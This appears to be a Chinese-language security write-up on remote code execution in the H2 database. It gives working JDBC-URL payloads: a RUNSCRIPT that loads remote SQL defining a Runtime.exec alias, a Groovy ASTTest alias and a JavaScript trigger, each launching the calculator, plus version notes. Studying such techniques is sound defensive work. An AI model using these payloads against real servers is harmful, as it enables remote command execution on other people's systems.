





# H2-RCE

<center>@Y4tacker</center>

首先在SpirngBoot当中如果开启了也可以通过网页直接实现rce，当然需要开启参数

```xml
spring.h2.console.enable=true
spring.h2.console.setting.web-allow-others=true
```



接下来分别介绍三种

## 通过加载执行远程sql

在org.h2.engine.Engine#openSession(org.h2.engine.ConnectionInfo)中,h2引擎将 "INIT "参数分割开来，并使用CommandInterface的不同实现类来初始化数据库连接，这取决于配置。



通过使用RUNSCRIPT命令，h2最终会调用org.h2.command.dml.RunScriptCommand#execute来执行恶意的sql语句。



```java
Class.forName("org.h2.Driver");
String connectionUrl = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8001/poc.sql'";
Connection connection = DriverManager.getConnection(connectionUrl);
connection.close();
```

Poc.sql

```java
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "y4tacker";}';CALL EXEC ('open -a Calculator.app')
```

那么为什么我们使用 "RUNSCRIPT "命令？因为我们使用的POC需要执行两条SQL语句，第一条是CREATE ALIAS，第二条是EXEC，这是一个两步的动作。然而session.prepareCommand不支持多条SQL语句的执行，所以我们使用RUNSCRIPT来从远程服务器加载SQL。



## 配合Groovy

在org.h2.util.SourceCompiler#getClass中，h2使用isGroovySource来确定它是否是groovy源代码


```java
private static boolean isGroovySource(String var0) {
  return var0.startsWith("//groovy") || var0.startsWith("@groovy");
}
```
利用
```java
Class.forName("org.h2.Driver");
String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"calc\")" + "})" + "def x";
String url    = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '" + groovy + "'";
```

但是也不是每个项目都有Groovy，这时候可以使用js执行命令


```
	public static void main(String[] args) throws Exception {
		Class.forName("org.h2.Driver");

		String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
				"INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
				"java.lang.Runtime.getRuntime().exec('open -na Calculator')\n" +
				"$$\n";		Connection conn = DriverManager.getConnection(url);
		conn.close();
	}
```

但是也是似乎有版本限制，我测试这是最低的限制

```
<dependency>
<groupId>com.h2database</groupId>
<artifactId>h2</artifactId>
<version>1.4.196</version>
</dependency>
```


## 关于报错

关于H2 数据库报错 Database "XXX" not found, and IFEXISTS=true, so we cant auto-create it [90146] 的解决办法

可以在[spring boot - Database not found, and IFEXISTS=true, so we cant auto-create it - Stack Overflow](https://stackoverflow.com/questions/55349373/database-not-found-and-ifexists-true-so-we-cant-auto-create-it)找到答案

Use a pre-2019 version of the `H2` database dependency that auto-creates the database every time you run your standalone application. For example version `1.4.193`. Your `pom.xml` should include this dependency:

```
<dependency>
        <groupId>com.h2database</groupId>
        <artifactId>h2</artifactId>
        <version>1.4.193</version>
</dependency>
```

